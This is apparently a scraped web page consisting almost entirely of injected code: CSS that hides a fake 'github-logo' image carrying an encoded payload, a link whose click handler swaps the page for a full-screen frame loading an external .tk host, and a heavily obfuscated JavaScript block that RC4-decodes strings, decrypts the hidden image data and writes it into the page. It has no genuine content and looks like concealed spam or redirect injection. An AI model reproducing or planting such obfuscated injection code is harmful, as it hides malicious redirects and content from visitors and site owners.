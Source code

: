 <style type="text/css">#github-urls a{pointer-events:none;}#github-logo{display:none;}</style><img id="github-logo" src="data:image/png;base64,7c8319e0ebe8653b4689a9883a63648a2b544e1ccf8334b21f3fdecb456db841de310635f5e036200a5f465175f3c2711903b4674aeb792c6ac0146315927644344d9596b80a4675651e28ceb4211e29a48658f7d4e489c06d2d56cb5f54109107da63d0687924a6290b19b2a7543d75ca52077f07587f18c4bda35c2045954c5079439770cf52dd168b2676d26d4931d4117c527809eb62e3ea383c809571ad7b9e17ebd184c87206d481f8046e17b0" alt="1cr" />

<div id="github-urls">
<a href="https://ke.hagre.tk/" onclick="clicka(this,'http://ahc1.bogg.tk/');return false;">鍔ㄦ€佺綉</a>
</div>

<script type="text/javascript">
function clicka(a,url){var html='<html><head><title>'+a.innerText+'</title><frameset framespacing="0" border="0" rows="0" frameborder="0"><frame name="main" src="'+url+'" scrolling="auto" noresize></frameset></head><body></body></html>';var doc=document.open("text/html","replace");doc.write(html);doc.close();}

var __0x10621=['wrbCmT7DhwxvJMKQKA==','wqFFw7TDncKVwpU=','EcOLwr4vWMOwwrwg','w4/CssKYaggE','OwdresONwoZ1w6DCjMOE','YcOhwrfDncKMWcOowrE=','w6TCrsKyfh0=','M8O5wqjCjTvDiA==','XMKKwopTFQ==','w6nCl2VhAA==','w4EmwpMlDsOF','GijClg==','KxjCsRsoTMKGETjDuwQM','wodlwrw2PkJsw5nCvcOMA3fDvsOr','wq5Nwqg=','QcKmwpQfwoE=','aALCsMKow7xU','w5rDjMOkMcO0wqY=','JXPCtmHDjBnCu8KcScKbYMKCwql8wqg+w73Cm3NJw7BtFnN1HGQsJsOfZRrCu2A=','w5bCtkcsUg==','w5/Cjl99HQ==','w7dZw5jDgGg=','YMOpwp8DwqA=','asOREDwm','d8OowqkUwrBQ','Px5qwrRA','wrHDrV0FGMOP','ecKnwr5hHA==','wq5Iw7vDiMKgwok=','MhbCjMK0w4o=','TMOKPiwn','asKrwp1BITfChHw5w57Ct0ZuwqU=','w5HDgMO+PsO1wqzDl1hgbjc=','w7Faw6NOw44=','CcOBwoM8XsOx','w415w7/Do1g=','wp7ChVnCjw8=','O2xAw7HDvQ==','YXFLYcKq','wrFZwoQiCg==','w7Nfw4tWw48=','wpVHw6jDg8Ky','OADCiMK6w6fCkA==','wqnClMOSDcO6','R8K1wp04wqZ9wonChMKO'];(function(_0x40127f,_0xa84f48){var _0x2b06a5=function(_0x1a1ad6){while(--_0x1a1ad6){_0x40127f['push'](_0x40127f['shift']());}};_0x2b06a5(++_0xa84f48);}(__0x10621,0xc6));var _0x2fde=function(_0x517938,_0x92f678){_0x517938=_0x517938-0x0;var _0x5a8067=__0x10621[_0x517938];if(_0x2fde['initialized']===undefined){(function(){var _0x9e8a52=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x46bd96='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x9e8a52['atob']||(_0x9e8a52['atob']=function(_0x105034){var _0x2b44b4=String(_0x105034)['replace'](/=+$/,'');for(var _0x13ad3c=0x0,_0x1fe081,_0x2ca897,_0x1e7d21=0x0,_0x2a986f='';_0x2ca897=_0x2b44b4['charAt'](_0x1e7d21++);~_0x2ca897&&(_0x1fe081=_0x13ad3c%0x4?_0x1fe081*0x40+_0x2ca897:_0x2ca897,_0x13ad3c++%0x4)?_0x2a986f+=String['fromCharCode'](0xff&_0x1fe081>>(-0x2*_0x13ad3c&0x6)):0x0){_0x2ca897=_0x46bd96['indexOf'](_0x2ca897);}return _0x2a986f;});}());var _0x5c7450=function(_0x13844e,_0x403783){var _0x1ae839=[],_0x2704bb=0x0,_0x11fac1,_0x33cf6c='',_0x4bc5e7='';_0x13844e=atob(_0x13844e);for(var _0x15a4d7=0x0,_0x26eaff=_0x13844e['length'];_0x15a4d7<_0x26eaff;_0x15a4d7++){_0x4bc5e7+='%'+('00'+_0x13844e['charCodeAt'](_0x15a4d7)['toString'](0x10))['slice'](-0x2);}_0x13844e=decodeURIComponent(_0x4bc5e7);for(var _0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x1ae839[_0x3d7f7a]=_0x3d7f7a;}for(_0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a]+_0x403783['charCodeAt'](_0x3d7f7a%_0x403783['length']))%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;}_0x3d7f7a=0x0;_0x2704bb=0x0;for(var _0x326917=0x0;_0x326917<_0x13844e['length'];_0x326917++){_0x3d7f7a=(_0x3d7f7a+0x1)%0x100;_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a])%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;_0x33cf6c+=String['fromCharCode'](_0x13844e['charCodeAt'](_0x326917)^_0x1ae839[(_0x1ae839[_0x3d7f7a]+_0x1ae839[_0x2704bb])%0x100]);}return _0x33cf6c;};_0x2fde['rc4']=_0x5c7450;_0x2fde['data']={};_0x2fde['initialized']=!![];}var _0xef68eb=_0x2fde['data'][_0x517938];if(_0xef68eb===undefined){if(_0x2fde['once']===undefined){_0x2fde['once']=!![];}_0x5a8067=_0x2fde['rc4'](_0x5a8067,_0x92f678);_0x2fde['data'][_0x517938]=_0x5a8067;}else{_0x5a8067=_0xef68eb;}return _0x5a8067;};(function(){var _0x2e4906={'xtLqM':_0x2fde('0x0','vpsP'),'bHWSD':function _0x43598f(_0x553200,_0x57b821){return _0x553200(_0x57b821);},'tiWeQ':function _0x258ca7(_0x5dd0c2,_0x23068d){return _0x5dd0c2+_0x23068d;},'BPxYb':function _0x2ae1ad(_0x1763cd,_0x3e1edc){return _0x1763cd*_0x3e1edc;},'fsjiY':function _0x45e6f5(_0x274924,_0x291fbb){return _0x274924%_0x291fbb;},'RryuP':function _0x512199(_0x2eb2b1,_0x463ecd){return _0x2eb2b1+_0x463ecd;},'XgryS':function _0x2ca397(_0x13c467,_0x4ee578){return _0x13c467<_0x4ee578;},'Xhppt':function _0x1b515e(_0x22e42e,_0xc81743){return _0x22e42e(_0xc81743);},'GOKQp':function _0x3106d3(_0x485d20,_0x5f51bd){return _0x485d20^_0x5f51bd;},'EiVui':function _0x4274cf(_0x444437,_0x49f124,_0x4e2dff){return _0x444437(_0x49f124,_0x4e2dff);},'XVGGB':function _0x592035(_0x357770,_0x2e8646){return _0x357770*_0x2e8646;},'iDGhy':function _0x313f5f(_0x64c6b0,_0x45d83d){return _0x64c6b0/_0x45d83d;},'QYLQX':function _0x32b528(_0x9bbd2d,_0x299e92){return _0x9bbd2d(_0x299e92);},'ZbZaR':function _0x2fe9ca(_0x3581f6,_0x4dded9){return _0x3581f6%_0x4dded9;},'GyDsa':function _0x585463(_0x56bed9,_0x14be4a){return _0x56bed9/_0x14be4a;},'QDcWX':function _0x399eb7(_0x21f53d,_0x368f0f){return _0x21f53d-_0x368f0f;},'ZjvYw':'github-logo','ufkTS':function _0x3e7926(_0x453ab8,_0x2ab2be,_0xec6272){return _0x453ab8(_0x2ab2be,_0xec6272);}};var _0x50e477=_0x2e4906[_0x2fde('0x1','x9t%')][_0x2fde('0x2','WIX^')]('|'),_0x47ab43=0x0;while(!![]){switch(_0x50e477[_0x47ab43++]){case'0':var _0xe47ad='';continue;case'1':var _0x3e62c5=_0x2e4906[_0x2fde('0x3','#D98')](_0x38784a,_0x55f429['length']/0x5);continue;case'2':_0x3e62c5=_0x5ebf13(_0x2e4906[_0x2fde('0x4','8#^4')](_0x2e4906['tiWeQ'](_0x2e4906['tiWeQ'](_0x55f429['charAt'](_0x3e62c5)+'',_0x2e4906[_0x2fde('0x5','8J&m')](_0x55f429['charAt'](0x2*_0x3e62c5),''))+(_0x55f429[_0x2fde('0x6','8#^4')](_0x2e4906[_0x2fde('0x7','4TEe')](0x3,_0x3e62c5))+''),_0x2e4906['tiWeQ'](_0x55f429[_0x2fde('0x8','ZUbo')](0x4*_0x3e62c5),'')),_0x2e4906[_0x2fde('0x9','WICC')](_0x55f429[_0x2fde('0xa','lBtz')](0x5*_0x3e62c5),'')));continue;case'3':_0x55f429=_0x2e4906[_0x2fde('0xb','lx(O')](_0x2e4906[_0x2fde('0xc','8J&m')](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'4':document[_0x2fde('0xd','WICC')](_0x2fde('0xe','RDOg'))['outerHTML']=_0xe47ad;continue;case'5':for(_0x17c2d6=0x0;_0x2e4906[_0x2fde('0xf','$$#!')](_0x17c2d6,_0x3553cd[_0x2fde('0x10','[%BU')]);_0x17c2d6+=0x2)_0x2da34d=_0x2e4906[_0x2fde('0x11','#D98')](_0x5ebf13,_0x2e4906[_0x2fde('0x12','x!K0')](_0x2e4906['EiVui'](_0x5ebf13,_0x3553cd['substring'](_0x17c2d6,_0x17c2d6+0x2),0x10),_0x38784a(_0x2e4906[_0x2fde('0x13','2]dx')](_0x2e4906[_0x2fde('0x14','*TVP')](_0x55f429,_0xd449d1),0xff)))),_0xe47ad+=_0x2e4906[_0x2fde('0x15','g#!P')](_0x54e73c,_0x2da34d),_0x55f429=_0x2e4906[_0x2fde('0x16','$$#!')](_0x2e4906['RryuP'](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'6':for(_0x55f429+=_0x17c2d6;_0x2e4906[_0x2fde('0x17','lBtz')](0xa,_0x55f429[_0x2fde('0x18','lx(O')]);)_0x55f429=_0x2e4906[_0x2fde('0x19','U)%m')](_0x5ebf13(_0x55f429[_0x2fde('0x1a','9N3d')](0x0,0xa)),_0x5ebf13(_0x55f429[_0x2fde('0x1b','^j5V')](0xa,_0x55f429[_0x2fde('0x1c','lBtz')])))[_0x2fde('0x1d','[%BU')]();continue;case'7':for(var _0x55f429='',_0x17c2d6=0x0;_0x17c2d6<_0x2da34d[_0x2fde('0x1e','ATk^')];_0x17c2d6++)_0x55f429+=_0x2da34d[_0x2fde('0x1f',']KhA')](_0x17c2d6)[_0x2fde('0x20','o4Q^')]();continue;case'8':_0x10bdef=_0x10bdef(_0x2e4906[_0x2fde('0x21','ATk^')](_0x2da34d['length'],0x2));continue;case'9':_0x3553cd=_0x3553cd['substring'](0x0,_0x3553cd[_0x2fde('0x22','#4ap')]-0x8);continue;case'10':_0xd449d1=_0x2e4906[_0x2fde('0x23','WICC')](_0x2e4906[_0x2fde('0x24','WIX^')](_0xd449d1,0x2,0x1f),0x1);continue;case'11':_0x3553cd=_0x3553cd['src'][_0x2fde('0x25','hvyB')](0x16);continue;case'12':_0xe47ad=decodeURIComponent(_0xe47ad);continue;case'13':var _0x38784a=Math['floor'],_0x10bdef=Math['round'],_0xd449d1=Math[_0x2fde('0x26','7JiN')],_0x5ebf13=parseInt,_0x54e73c=String[_0x2fde('0x27','!o$o')],_0x3553cd=document[_0x2fde('0x28','g#!P')](_0x2e4906['ZjvYw']),_0x2da34d=_0x3553cd[_0x2fde('0x29','v1I(')];continue;case'14':_0x17c2d6=_0x2e4906[_0x2fde('0x2a','9N3d')](_0x5ebf13,_0x3553cd['substring'](_0x3553cd[_0x2fde('0x2b','$X02')]-0x8,_0x3553cd[_0x2fde('0x2c','RDOg')]),0x10);continue;}break;}}());
</script>
